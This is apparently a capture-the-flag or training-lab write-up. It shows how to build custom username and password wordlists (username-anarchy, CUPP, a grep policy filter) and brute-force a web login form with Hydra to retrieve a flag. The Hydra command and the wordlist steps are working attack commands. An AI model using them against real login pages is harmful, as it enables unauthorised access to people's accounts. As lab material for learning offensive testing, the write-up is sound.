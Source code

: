 # Custom Wordlists

### After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Generate usernames:

* {% code overflow="wrap" %}
  ```bash
  ./username-anarchy Jane Smith > jane_smith_usernames.txt
  ```
  {% endcode %}

**Step 2** - Use CUPP to create a personalized password list:

*

    <figure><img src="../../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Filter the password to match the following policy:

* Minimum Length: 6 characters
* Must Include:
  * At least one uppercase letter
  * At least one lowercase letter
  * At least one number
  * At least two special characters (from the set `!@#$%^&*`)
*   {% code overflow="wrap" %}
    ```bash
    grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
    ```
    {% endcode %}



**Step 4** - Brute-force the login form with Hydra:

* {% code overflow="wrap" %}
  ```bash
  hydra -L jane_smith_usernames.txt -P jane-filtered.txt SERVER_IP -s SERVERPORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

**Step 5** - Login with the credentials and get the flag:

<figure><img src="../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>
